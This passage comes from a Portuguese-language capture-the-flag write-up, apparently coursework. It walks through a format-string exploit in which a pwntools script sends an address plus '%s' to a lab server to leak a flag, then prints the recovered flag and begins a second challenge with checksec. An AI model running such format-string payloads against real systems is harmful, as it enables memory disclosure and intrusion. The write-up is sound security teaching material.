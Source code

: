 Deste modo, foi precisamente isso que fizemos alterando o *script* de *python* fornecido:

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("10.227.243.188", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

De notar que o endereço da `flag` teve que ser invertido devido ao sistema ser *little-endian*.

Após correr o *script* obteve-se o seguinte resultado:  
![/imgs6/ctf/flag1.png](/imgs6/ctf/flag1.png)

Estando assim a flag obtida:
```
flag{8232a42d247981b2e46cda36d1b92629}
```


### Desafio 2


Mais uma vez, começamos por executar o seguinte comando:
```sh
checksec program
```
que retornou a mesma informação que no desafio anterior:  
![/imgs6/ctf/checksec_program.png](/imgs6/ctf/checksec_program.png)
